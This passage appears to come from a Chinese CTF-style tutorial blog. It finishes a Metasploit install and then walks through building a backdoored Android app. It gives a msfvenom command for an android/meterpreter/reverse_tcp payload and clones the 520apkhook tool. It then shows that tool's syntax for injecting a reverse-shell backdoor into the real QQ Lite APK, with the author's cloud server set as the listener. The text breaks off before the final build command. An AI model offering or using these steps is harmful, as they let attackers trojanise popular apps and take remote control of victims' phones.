 ```bash
    install_deb
    ;;
  sus)
    install_suse
    ;;
  rpm)
    install_rpm
    ;;
  *)
    install_pkg
esac
```

我这里是保存为了`msf`文件，在运行之前一定要记得赋予执行权限

```bash
sudo chmod +x msf
sudo ./msf
```

然后就会开始安装，安装完成后输入`msfconsole`看看能不能正常打开，如果可以就是安装成功了

（附上以上正常运行的图）

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-5/Xshell-20220607-230127.png?download=true)

## 用520apkhook创建带有后门的apk文件

MSF自身本来就可以创建带有后门的APK程序，不过就是一个简单的`MainActivity`，我们还要把它压进我们的程序里

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<host> LPORT=5555 R > pentestlab.apk
```

这个比较麻烦（有时间再补），所以我这里用Github上别人写好的脚本



这里我选用的是QQ轻聊版（name='com.tencent.qqlite' versionCode='174' versionName='3.5.0'）

首先我们要把520apkhook给clone下来才能用

```bash
git clone https://github.com/ba0gu0/520apkhook.git
```

而且用之前，我们需要安装520apkhook需要的python轮子

```bash
pip3 install rich pycryptodome
```

安装完后，我们使用下面的命令格式进行apk的后门注入

```bash
python3 main.py [-h] --lhost LHOST --lport LPORT [-m MODE] [-p PAYLOAD] -n NORMALAPK
```

我这里把QQ轻聊版命名为`QQLite.apk`，我的服务器地址是我的腾讯云地址，端口开在了5555，那我就可以用下面的命令生成apk

